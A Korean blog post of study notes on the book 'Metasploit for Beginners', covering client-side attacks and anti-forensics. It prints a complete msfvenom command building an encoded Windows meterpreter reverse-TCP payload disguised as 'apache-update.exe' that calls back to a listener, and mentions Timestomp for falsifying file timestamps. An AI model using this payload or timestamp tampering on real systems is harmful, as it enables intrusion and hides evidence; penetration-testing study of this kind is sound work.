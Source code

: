 ```yaml
---
layout: post
title: "Metasploit for Beginners 메모"
categories: [보안, 취약점스캐너]
tags: [취약점, 스캐너, metasploit]
toc: true
last_modified_at: 2023-10-06 17:15:00 +0900
---
```


# 개요
- Metasploit for Beginners(저자 Sagar Rahalkar) 책을 보고 일부 메모한 파일이다. 
- https://www.amazon.com/Metasploit-Beginners-threat-free-best-class/dp/1788295978
- Metasploit 입문서로서는 아주 좋다. 쉽게 쓰여져 있고 알아야할 기본적인 내용은 다 써있다. 

# Client-side Attacks
- Client-side attack이란 각 개별 유저를 노리는 공격을 총칭한다. 예들 들어 공격자가 웹 사이트에서 멀웨어 코드가 임베드된 DOC, PDF, XLS등을 불특정 유저에게 다운로드시킨다음에 유저가 해당 파일을 실행하면 동작하는 타입의 공격이다. 
- 이런 타입의 공격은 기존의 공격 형태 (글로벌 IP를 가진 서버를 대상으로 하는 형태)와는 달리, 예를들어 라우터 뒤에 있는 특정 조직의 사내 서버라던가 조직내의 PC를 공격할 수 있다는 특징이 있다. 

## 공격 흐름
Client-side attack의 공격흐름은 다음과 같다. 
1. msfvenom을 사용해서 페이로드를 만든다.
2. incomming 커넥션을 처리하기 위한 리스너를 시작한다. 
3. victim에게 페이로드를 보낸다. 
4. 리버스 세션을 기다린다. 

## 페이로드 생성 
### Msfvenom 
예전에는 Metasploit에 msfpayload 와 msfencode 만 존재했다. msfpayload는 시스템을 공격하기 위한 페이로드가, msfencode는 그 페이로드를 숨기기위한 obfuscate기능이 있다. 이 두가지 기능을 합친것이 최근에 등장한 msfvenom 이다. 

### 커맨드 
다음 커맨드를 사용해서 페이로드를 만든다. 

```sh
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp \
LHOST= 192.168.44.134 LPORT= 8080 -e x86/shikata_ga_nai \ 
-f exe -o /root/Desktop/apache-update.exe
```

각 옵션의 의미는 다음과 같다. 

- -a x86: x86아키텍처상에서 동작하는 페이로드를 만든다. 
- --platform windows: 페이로드가 동작하는 플랫폼은 windows이다. 
- -p windows/meterpreter/reverse_tcp: 페이로드는 reverse TCP로 동작하는 meterpreter이다. 
- -e x86/shikata_ga_nai: 페이로드 인코더는 shikata_ga_nai를 사용한다. 
- -f exe: 아웃풋 포맷은 exe이다. 
- -o /root/Desktop/apache-update.exe: 만들어진 페이로드가 저장될 경로이다. 

# Anti-forensics
## Timestomp 
- Timestomp 툴을 사용해서 파일의 생성시간, 갱신시간등을 덮어쓰기할 수 있다. 
- 그런데 윈도우즈에서 파일의 시간데이터를 덮어쓰는 것은 어려운 일일까?
- [여기](https://tfl09.blogspot.com/2020/12/how-to-change-file-time-for-windows-file.html)를 보면 파워셸로 가능한 것 같다. 